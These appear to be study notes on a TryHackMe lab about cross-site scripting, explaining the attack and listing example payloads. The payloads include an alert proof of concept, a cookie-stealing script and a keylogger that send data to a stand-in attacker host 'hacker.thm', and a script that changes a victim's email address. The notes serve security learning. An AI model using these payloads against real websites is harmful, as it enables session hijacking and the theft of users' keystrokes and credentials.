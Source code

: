
#XSS #Web 

https://tryhackme.com/r/room/xss

It's worth noting that because XSS is based on JavaScript, it would be helpful to have a basic understanding of the language. However, none of the examples is overly complicated—also, a basic understanding of Client-Server requests and responses.

Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.


## XSS payload

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload
- intention = what you want the JS to do
- modification = the changes in code to make it execute

> [!info] Proof of Concept payload
> `<script>alert('XSS');</script>`

### session stealing 

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

> [!info] Session Steal Cookie
> ```<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>```

### keylogger

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

> [!info] Key logger
> `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

### business logic 

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

> [!info] Business logic
> `<script>user.changeEmail('attacker@hacker.thm');</script>`
